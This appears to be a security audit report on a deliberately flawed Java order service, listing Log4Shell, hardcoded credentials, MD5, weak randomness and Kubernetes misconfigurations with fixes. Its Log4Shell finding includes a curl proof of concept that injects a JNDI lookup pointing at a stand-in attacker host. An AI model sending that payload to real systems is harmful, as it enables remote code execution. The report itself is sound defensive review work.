

# 🛡️ Security Analysis Report: Order Service

**Scope**: order-service (Full codebase)  
**Analysis Date**: 2026-05-19  
**Analyst**: Bob (Software Security Reviewer)

---

## Executive Summary

### Risk Rating: 🔴 **CRITICAL**

| Severity | Count |
|----------|-------|
| 🔴 CRITICAL | 1 |
| 🟠 HIGH | 6 |
| 🟡 MEDIUM | 3 |
| 🔵 LOW | 2 |
| ⚪ INFO | 1 |

### 🚨 **FIX IMMEDIATELY — BLOCK DEPLOYMENT**

1. **[CRITICAL-01]** Log4j 2.14.1 Vulnerable Dependency (CVE-2021-44228 - Log4Shell) - CVSS 10.0
2. **[HIGH-01]** Hardcoded Credentials in Source Code - CVSS 9.1
3. **[HIGH-02]** Secrets Exposed in Kubernetes Deployment - CVSS 8.8

---

## Critical Findings

### [CRITICAL-01] Vulnerable Log4j Dependency (CVE-2021-44228)

**Severity**: 🔴 CRITICAL | **CVSS**: 10.0 | **CWE**: CWE-502  
**Exploitability**: TRIVIAL | **Business Impact**: CATASTROPHIC

**Location**: `order-service/pom.xml:66-69, 93-96`

**Evidence**:
```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.1</version>
</dependency>
```

**Vulnerability**: Log4Shell (CVE-2021-44228) - Remote Code Execution via JNDI injection in log messages.

**Proof of Concept**:
```bash
curl -H "X-Api-Version: ${jndi:ldap://attacker.com/a}" http://order-service:8080/api/orders
```

**Root Cause**: Application uses Log4j 2.14.1, which is vulnerable to the Log4Shell RCE vulnerability. Any user-controlled input that gets logged can trigger remote code execution.

**Impact**: 
- Unauthenticated remote code execution
- Complete system compromise
- Data exfiltration of entire database
- Lateral movement to other services
- Ransomware deployment potential

**Remediation**:
```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.1</version> <!-- or later -->
</dependency>
```

**Verification**:
1. Update to Log4j 2.17.1 or later
2. Run `mvn dependency:tree` to verify no transitive dependencies pull in vulnerable versions
3. Run OWASP Dependency Check: `mvn dependency-check:check`

---

## High Severity Findings

### [HIGH-01] Hardcoded Credentials in Source Code

**Severity**: 🟠 HIGH | **CVSS**: 9.1 | **CWE**: CWE-798  
**Exploitability**: TRIVIAL | **Business Impact**: HIGH

**Location**: `order-service/src/main/java/com/example/orders/service/OrderService.java:19-20`

**Evidence**:
```java
private static final String BACKUP_DB_PASSWORD = "backup_pass_123";
private static final String LEGACY_API_KEY = "legacy-abc123";
```

**Root Cause**: Credentials hardcoded in source code, committed to version control, accessible to anyone with repository access.

**Impact**:
- Credentials exposed in git history (even if removed from HEAD)
- Backup database compromise
- Legacy API unauthorized access
- PCI-DSS 8.2.1 violation (no unique credentials)

**Remediation**:
```java
// Remove hardcoded credentials entirely
private final String backupDbPassword;
private final String legacyApiKey;

public OrderService(OrderRepository orderRepository, 
                   @Value("${backup.db.password}") String backupDbPassword,
                   @Value("${legacy.api.key}") String legacyApiKey) {
    this.orderRepository = orderRepository;
    this.backupDbPassword = backupDbPassword;
    this.legacyApiKey = legacyApiKey;
}
```

Add to `application.properties`:
```properties
backup.db.password=${BACKUP_DB_PASSWORD}
legacy.api.key=${LEGACY_API_KEY}
```

**Additional Actions**:
1. Rotate both credentials immediately
2. Scan git history: `git log -p -S "backup_pass_123"`
3. Use secrets management (Vault, AWS Secrets Manager, Kubernetes Secrets)

---

### [HIGH-02] Secrets Exposed in Kubernetes Deployment

**Severity**: 🟠 HIGH | **CVSS**: 8.8 | **CWE**: CWE-798  
**Exploitability**: EASY | **Business Impact**: HIGH

**Location**: `order-service/deploy-flawed/deployment.yaml:34-35`

**Evidence**:
```yaml
- name: DB_PASS
  value: orderpass
```

**Root Cause**: Database password stored as plaintext in deployment manifest, visible to anyone with cluster read access.

**Impact**:
- Database credentials exposed in cluster
- Anyone with `kubectl get deployment -o yaml` access can read password
- Credentials in git history
- PCI-DSS 3.4 violation (unencrypted cardholder data environment credentials)

**Remediation**:
```yaml
# Create Kubernetes Secret first:
# kubectl create secret generic order-db-credentials \
#   --from-literal=username=orderuser \
#   --from-literal=password=<strong-random-password>

env:
  - name: DB_USER
    valueFrom:
      secretKeyRef:
        name: order-db-credentials
        key: username
  - name: DB_PASS
    valueFrom:
      secretKeyRef:
        name: order-db-credentials
        key: password
```

---

### [HIGH-03] Weak Cryptography (MD5)

**Severity**: 🟠 HIGH | **CVSS**: 7.5 | **CWE**: CWE-328  
**Exploitability**: MODERATE | **Business Impact**: MEDIUM

**Location**: `order-service/src/main/java/com/example/orders/service/OrderService.java:90-109`

**Evidence**:
```java
MessageDigest md = MessageDigest.getInstance("MD5");
String input = orderId.toString() + LEGACY_API_KEY;
```

**Root Cause**: MD5 is cryptographically broken. Collision attacks are trivial, allowing attackers to forge verification codes.

**Impact**:
- Order verification codes can be forged
- Integrity of order verification system compromised
- PCI-DSS 4.1 violation (strong cryptography required)

**Remediation**:
```java
public String generateOrderVerificationCode(Long orderId) {
    try {
        // Use HMAC-SHA256 for integrity verification
        Mac hmac = Mac.getInstance("HmacSHA256");
        SecretKeySpec secretKey = new SecretKeySpec(
            legacyApiKey.getBytes(StandardCharsets.UTF_8), 
            "HmacSHA256"
        );
        hmac.init(secretKey);
        
        byte[] hash = hmac.doFinal(orderId.toString().getBytes(StandardCharsets.UTF_8));
        return Base64.getUrlEncoder().withoutPadding().encodeToString(hash);
    } catch (Exception e) {
        logger.error("Failed to generate verification code", e);
        throw new RuntimeException("Verification code generation failed");
    }
}
```

---

### [HIGH-04] Insecure Random Number Generation

**Severity**: 🟠 HIGH | **CVSS**: 7.4 | **CWE**: CWE-338  
**Exploitability**: MODERATE | **Business Impact**: MEDIUM

**Location**: `order-service/src/main/java/com/example/orders/service/OrderService.java:115-119`

**Evidence**:
```java
Random random = new Random();
long trackingNum = Math.abs(random.nextLong());
return "TRK-" + trackingNum;
```

**Root Cause**: `java.util.Random` is predictable. Attackers can predict tracking numbers and access other customers' orders.

**Impact**:
- Tracking numbers predictable after observing a few values
- Unauthorized order tracking/access (IDOR vulnerability)
- PCI-DSS 6.5.3 violation (insecure cryptographic storage)

**Remediation**:
```java
public String generateTrackingNumber() {
    SecureRandom secureRandom = new SecureRandom();
    byte[] randomBytes = new byte[16];
    secureRandom.nextBytes(randomBytes);
    return "TRK-" + Base64.getUrlEncoder()
        .withoutPadding()
        .encodeToString(randomBytes);
}
```

---

### [HIGH-05] Insecure Logging with System.out

**Severity**: 🟠 HIGH | **CVSS**: 7.2 | **CWE**: CWE-532  
**Exploitability**: EASY | **Business Impact**: MEDIUM

**Location**: Multiple locations in `OrderService.java:47-48, 60, 82, 133`

**Evidence**:
```java
System.out.println("Creating order for customer: " + order.getCustomerName() + 
                  " with amount: $" + order.getAmount());
System.out.println("Processing payment with API key: " + LEGACY_API_KEY);
```

**Root Cause**: Sensitive data (customer names, amounts, API keys) logged to stdout without proper sanitization or access controls.

**Impact**:
- PII exposure in logs (GDPR violation)
- Payment data in logs (PCI-DSS 3.2 violation)
- API keys exposed in logs
- Logs may be aggregated to insecure systems

**Remediation**:
```java
// Remove all System.out.println statements
// Use proper logger with appropriate levels
logger.info("Creating order for customer ID: {}", order.getId());
logger.debug("Order amount: {}", order.getAmount()); // Only in non-prod

// NEVER log API keys
// Remove: System.out.println("Processing payment with API key: " + LEGACY_API_KEY);
logger.info("Processing payment for order: {}", order.getId());
```

---

### [HIGH-06] Stack Trace Exposure

**Severity**: 🟠 HIGH | **CVSS**: 6.5 | **CWE**: CWE-209  
**Exploitability**: EASY | **Business Impact**: LOW

**Location**: `order-service/src/main/java/com/example/orders/service/OrderService.java:106, 138`

**Evidence**:
```java
} catch (Exception e) {
    e.printStackTrace();
    return null;
}
```

**Root Cause**: Stack traces printed to stdout expose internal implementation details, file paths, and framework versions.

**Impact**:
- Information disclosure aids attackers in reconnaissance
- Exposes internal architecture
- PCI-DSS 6.5.5 violation (improper error handling)

**Remediation**:
```java
} catch (NoSuchAlgorithmException e) {
    logger.error("Cryptographic algorithm not available", e);
    throw new RuntimeException("System configuration error");
} catch (Exception e) {
    logger.error("Failed to process order payment", e);
    throw new RuntimeException("Payment processing failed");
}
```

---

## Medium Severity Findings

### [MEDIUM-01] Container Running as Root

**Severity**: 🟡 MEDIUM | **CWE**: CWE-250

**Location**: `order-service/Dockerfile` (missing user directive)

**Evidence**: No `USER` directive in Dockerfile - container runs as root by default.

**Impact**: If container is compromised, attacker has root privileges within container.

**Remediation**:
```dockerfile
FROM eclipse-temurin:17-jre-alpine

RUN addgroup -g 1000 appuser && \
    adduser -D -u 1000 -G appuser appuser

WORKDIR /app
COPY --chown=appuser:appuser target/order-service-1.0.0.jar app.jar

USER appuser

EXPOSE 8080
ENTRYPOINT ["java", "-jar", "app.jar"]
```

---

### [MEDIUM-02] Privilege Escalation Allowed in Kubernetes

**Severity**: 🟡 MEDIUM | **CWE**: CWE-269

**Location**: `order-service/deploy-flawed/deployment.yaml:36-37`

**Evidence**:
```yaml
securityContext:
  allowPrivilegeEscalation: true
```

**Remediation**:
```yaml
securityContext:
  allowPrivilegeEscalation: false
  runAsNonRoot: true
  runAsUser: 1000
  capabilities:
    drop:
      - ALL
  readOnlyRootFilesystem: true
```

---

### [MEDIUM-03] Missing Authorization Checks

**Severity**: 🟡 MEDIUM | **CWE**: CWE-639

**Location**: `order-service/src/main/java/com/example/orders/controller/OrderController.java:28-31`

**Evidence**: `getOrderById` endpoint has no ownership verification - any authenticated user can access any order by ID.

**Impact**: Broken Object-Level Authorization (BOLA/IDOR) - users can access other users' orders.

**Remediation**:
```java
@GetMapping("/{id}")
public ResponseEntity<Order> getOrderById(@PathVariable Long id, 
                                         @AuthenticationPrincipal UserDetails user) {
    return orderService.getOrderById(id)
            .filter(order -> order.getCustomerName().equals(user.getUsername()))
            .map(ResponseEntity::ok)
            .orElse(ResponseEntity.notFound().build());
}
```

---

## Low Severity Findings

### [LOW-01] Missing Rate Limiting

**Severity**: 🔵 LOW | **CWE**: CWE-770

**Location**: All endpoints in `OrderController.java`

**Impact**: API endpoints vulnerable to brute force and DoS attacks.

**Remediation**: Implement rate limiting using Spring Security or API Gateway.

---

### [LOW-02] Missing Security Headers

**Severity**: 🔵 LOW | **CWE**: CWE-693

**Impact**: Missing CSP, HSTS, X-Frame-Options headers.

**Remediation**: Add Spring Security with default security headers.

---

## Info

### [INFO-01] Dockerfile Uses Latest Tag

**Location**: `deploy-flawed/deployment.yaml:19`

**Recommendation**: Use specific version tags instead of `:latest` for reproducible deployments.

---

## Threat Model Diagram



---

## Compliance Gaps

### PCI-DSS Violations
- ❌ **3.2** - Cardholder data in logs (System.out.println)
- ❌ **3.4** - Unencrypted credentials in deployment
- ❌ **4.1** - Weak cryptography (MD5)
- ❌ **6.5.3** - Insecure cryptographic storage (weak random)
- ❌ **6.5.5** - Improper error handling (stack traces)
- ❌ **8.2.1** - Hardcoded credentials (not unique)

### GDPR Violations
- ❌ **Article 32** - PII in logs without proper security

---

## Prioritized Action Plan

### 🚨 **IMMEDIATE (Block Deployment)**
1. **Upgrade Log4j** to 2.17.1+ (CRITICAL-01) - 30 minutes
2. **Remove hardcoded credentials** from source code (HIGH-01) - 1 hour
3. **Move secrets to Kubernetes Secrets** (HIGH-02) - 1 hour

### ⚠️ **HIGH PRIORITY (Fix This Sprint)**
4. Replace MD5 with HMAC-SHA256 (HIGH-03) - 2 hours
5. Replace Random with SecureRandom (HIGH-04) - 1 hour
6. Remove System.out.println, use logger (HIGH-05) - 2 hours
7. Fix error handling, remove printStackTrace (HIGH-06) - 1 hour

### 📋 **MEDIUM PRIORITY (Next Sprint)**
8. Add non-root user to Dockerfile (MEDIUM-01) - 30 minutes
9. Harden Kubernetes securityContext (MEDIUM-02) - 30 minutes
10. Implement authorization checks (MEDIUM-03) - 4 hours

### 🔧 **BACKLOG**
11. Add rate limiting (LOW-01)
12. Add security headers (LOW-02)
13. Use specific image tags (INFO-01)

---

## Supply Chain Status

**Dependencies**: 1 CRITICAL CVE (Log4j 2.14.1)  
**Container**: Base image eclipse-temurin:17-jre-alpine - needs scan  
**Pipeline**: No evidence of SAST, dependency scanning, or secret scanning

**Recommendations**:
- Add OWASP Dependency Check to Maven build
- Add Trivy container scanning to CI/CD
- Add git-secrets or TruffleHog for secret scanning
- Implement SAST with SonarQube or Checkmarx

---

## Estimated Remediation Effort

- **Critical/High fixes**: 8-10 hours
- **Medium fixes**: 5 hours  
- **Total**: 13-15 hours (2 developer days)

**Risk if not fixed**: Complete system compromise, data breach, regulatory fines, reputational damage.

---

## Appendix: Vulnerability Details

### CVSS 3.1 Scoring Methodology

Scores calculated using CVSS 3.1 calculator with the following vectors:

- **CRITICAL-01 (Log4Shell)**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` = 10.0
- **HIGH-01 (Hardcoded Creds)**: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` = 9.1
- **HIGH-02 (K8s Secrets)**: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` = 8.8

### CWE Mappings

All findings mapped to Common Weakness Enumeration (CWE) for standardized vulnerability classification.

### References

- OWASP Top 10 2021: https://owasp.org/Top10/
- OWASP API Security Top 10: https://owasp.org/API-Security/
- PCI-DSS v4.0: https://www.pcisecuritystandards.org/
- CWE Database: https://cwe.mitre.org/
- CVE-2021-44228 (Log4Shell): https://nvd.nist.gov/vuln/detail/CVE-2021-44228

---

**Report Generated**: 2026-05-19  
**Next Review**: Recommended after remediation of CRITICAL and HIGH findings